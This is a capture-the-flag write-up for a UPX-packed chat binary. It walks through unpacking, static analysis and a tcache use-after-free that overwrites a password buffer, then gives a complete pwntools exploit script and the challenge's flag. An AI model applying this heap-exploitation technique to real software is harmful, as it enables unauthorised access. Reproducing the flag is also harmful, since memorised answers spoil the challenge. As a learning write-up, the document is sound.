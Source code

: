 # Chat System Breach - Writeup

---

## Exploit Demo

This demo illustrates the step-by-step exploit process:

![Alt text](gif/ChatSystemBreach.gif)

---

## Binary Inspection

We begin by analyzing the binary for further reversing and exploitation.

### Step 1: Checking binary format

```bash
$ file main
```

The binary is a 64-bit statically linked PIE executable.

![Alt text](img/1.png)

---

### Step 2: Checking binary security

```bash
$ pwn checksec main
```

The binary appears to be Packed with UPX.

![Alt text](img/2.png)

---

### Step 3: Unpacking the binary

```bash
$ upx -d main
```

We unpack the binary with UPX tool to make it analyzable .

![Alt text](img/3.png)

---

### Step 4: Checking binary format again

```bash
$ file main
```

Post-unpacking, the binary is 64-bit stripped of symbol information.

![Alt text](img/4.png)

---

### Step 5: Rechecking security after unpacking

```bash
$ pwn checksec main
```

The `checksec` output for `main` shows: 64-bit AMD architecture, Partial RELRO, no stack canary, NX enabled, and PIE enabled.

![Alt text](img/5.png)

---

## Static Analysis (IDA Pro)

The first thing that stood out was that both the chat name and password buffers are allocated with the same size (`0x40`). This immediately suggested a potential tcache reuse: if we free the chat name and then allocate a password, the new `s1` pointer will point to the same memory previously used by the chat name, enabling a use-after-free exploit.

New Chat malloc :

![Alt text](img/8.png)

Password malloc :

![Alt text](img/9.png)

## How to solve

This binary implements a chat system vulnerable to a classic **tcache-based use-after-free (UAF)**. Exploiting this UAF allows us to write arbitrary data into the "password" buffer (`s1` chunk), which is critical for bypassing a password check in `verify_password()`. Successfully passing the check triggers a call to `system("./log")` revealing the flag.

---

## Vulnerability Summary

- A 0x40-byte chunk is allocated for the chat name.
- During chat deletion, this chunk is freed and placed into the tcache freelist.
- The deletion can be canceled, leaving the chat struct valid but the name chunk freed.
- The password buffer (`s1`) is later allocated using `malloc(0x40)` — it reuses the freed chunk.
- Renaming the chat writes into the `s1` buffer.
- Writing the correct secret string (`"53cr37_c0d3"`) triggers `system("./log")`.

---

## Exploit Strategy

1. **Create a chat**  
   Allocates:

   - 0x208-byte struct chunk
   - 0x40-byte chunk for the name (stored at `struct->[1]`)

2. **Free the name chunk but cancel deletion**

   - `delete_chat()` frees the name chunk
   - Choose **N** to cancel → struct remains alive
   - Chunk is now in tcache

3. **Allocate the password buffer (`s1`)**

   - `s1 = malloc(0x40)` → reuses the tcache chunk

4. **Rename chat**

   - `rename_chat()` writes into `struct->[1]` → now also `s1`

5. **Write the secret and verify**

   - Input: `"53cr37_c0d3"`
   - Check: `strncmp(s1, "53cr37_c0d3", 11)`
   - Success: `system("./log")`

---

## Exploit script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      No RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Packer:     Packed with UPX

io = start()

def new_chat(idx, name, msg):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'Index (0-9): ', str(idx).encode())
    io.sendafter(b'Name of the chat: ', name.ljust(0x40, b'\x00'))
    io.sendafter(b'reply ASAP :', msg)

def delete_chat(idx, confirm):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'Index (0-9): ', str(idx).encode())
    io.sendafter(b'(Y/N):', confirm)

def rename_chat(idx, new_name):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b'Index (0-9): ', str(idx).encode())
    io.sendafter(b'Name of the chat: ', new_name.ljust(0x40, b'\x00'))

def verify_password():
    io.sendlineafter(b'> ', b'7')

new_chat(0, b'dexter', b'dexter')

delete_chat(0, b'N')

io.sendlineafter(b'> ', b'5')

rename_chat(0, b'53cr37_c0d3')

verify_password()

io.interactive()

```

---

## Result

After successful password verification, the binary executes:

```c
system("./log");
```

This outputs the contents of the `./log` file — presumably the **flag**.

## ![Alt text](img/7.png)

## FLAG

After verification, we retrieve the flag from the program’s output.

```
RedPointer{9#zF@4T$3n!VmC82&xLpQ1r*X6~dEj}
```
